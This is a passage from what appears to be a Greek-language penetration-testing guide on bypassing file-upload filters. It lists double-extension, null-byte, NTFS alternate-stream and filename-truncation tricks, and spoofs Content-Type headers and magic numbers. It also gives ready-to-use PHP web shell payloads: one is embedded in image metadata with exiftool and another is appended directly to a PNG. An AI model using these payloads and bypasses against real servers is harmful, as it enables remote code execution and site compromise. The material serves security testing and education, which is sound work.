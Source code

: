 * _file.php#.png_
* _file.php%00.png_
* _file.php\x00.png_
* _file.php%0a.png_
* _file.php%0d%0a.png_
* _file.phpJunk123png_
5. Προσθέστε **άλλη μια στρώση επεκτάσεων** στον προηγούμενο έλεγχο:
* _file.png.jpg.php_
* _file.php%00.png%00.jpg_
6. Δοκιμάστε να τοποθετήσετε την **εκτελέσιμη επέκταση πριν από την έγκυρη επέκταση** και προσευχηθείτε ώστε ο διακομιστής να είναι κακορυθμισμένος. (χρήσιμο για την εκμετάλλευση κακορυθμίσεων του Apache όπου οτιδήποτε με επέκταση\*\* _**.php**_**, αλλά** όχι απαραίτητα που τελειώνει σε .php\*\* θα εκτελεί κώδικα):
* _ex: file.php.png_
7. Χρησιμοποιώντας **NTFS εναλλακτική ροή δεδομένων (ADS)** σε **Windows**. Σε αυτή την περίπτωση, ένας χαρακτήρας άνω των δύο “:” θα εισαχθεί μετά από μια απαγορευμένη επέκταση και πριν από μια επιτρεπόμενη. Ως αποτέλεσμα, ένα **κενό αρχείο με την απαγορευμένη επέκταση** θα δημιουργηθεί στον διακομιστή (π.χ. “file.asax:.jpg”). Αυτό το αρχείο μπορεί να επεξεργαστεί αργότερα χρησιμοποιώντας άλλες τεχνικές όπως η χρήση του σύντομου ονόματος του. Το μοτίβο “**::$data**” μπορεί επίσης να χρησιμοποιηθεί για τη δημιουργία μη κενών αρχείων. Επομένως, η προσθήκη ενός χαρακτήρα τελείας μετά από αυτό το μοτίβο μπορεί επίσης να είναι χρήσιμη για την παράκαμψη περαιτέρω περιορισμών (.π.χ. “file.asp::$data.”)
8.  Δοκιμάστε να σπάσετε τα όρια του ονόματος αρχείου. Η έγκυρη επέκταση κόβεται. Και το κακόβουλο PHP μένει. AAA<--SNIP-->AAA.php

```
# Linux μέγιστο 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # μείον 4 εδώ και προσθήκη .png
# Ανεβάστε το αρχείο και ελέγξτε την απόκριση πόσους χαρακτήρες επιτρέπει. Ας πούμε 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Δημιουργήστε το payload
AAA<--SNIP 232 A-->AAA.php.png
```

### Παράκαμψη Content-Type, Magic Number, Συμπίεση & Αλλαγή μεγέθους

* Παράκαμψη **Content-Type** ελέγχων ορίζοντας την **τιμή** της **κεφαλίδας Content-Type** σε: _image/png_ , _text/plain , application/octet-stream_
1. Content-Type **λίστα λέξεων**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
* Παράκαμψη **magic number** ελέγχου προσθέτοντας στην αρχή του αρχείου τα **bytes μιας πραγματικής εικόνας** (μπερδέψτε την εντολή _file_). Ή εισάγετε το shell μέσα στα **metadata**:\
`exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
`\` ή μπορείτε επίσης να **εισάγετε το payload απευθείας** σε μια εικόνα:\
`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* Αν **συμπίεση προστίθεται στην εικόνα σας**, για παράδειγμα χρησιμοποιώντας κάποιες τυπικές βιβλιοθήκες PHP όπως [PHP-GD](https://www.php.net/manual/fr/book.image.php), οι προηγούμενες τεχνικές δεν θα είναι χρήσιμες. Ωστόσο, μπορείτε να χρησιμοποιήσετε την **τεχνική PLTE chunk** [**που ορίζεται εδώ**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) για να εισάγετε κάποιο κείμενο που θα **επιβιώσει τη συμπίεση**.
* [**Github με τον κώδικα**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
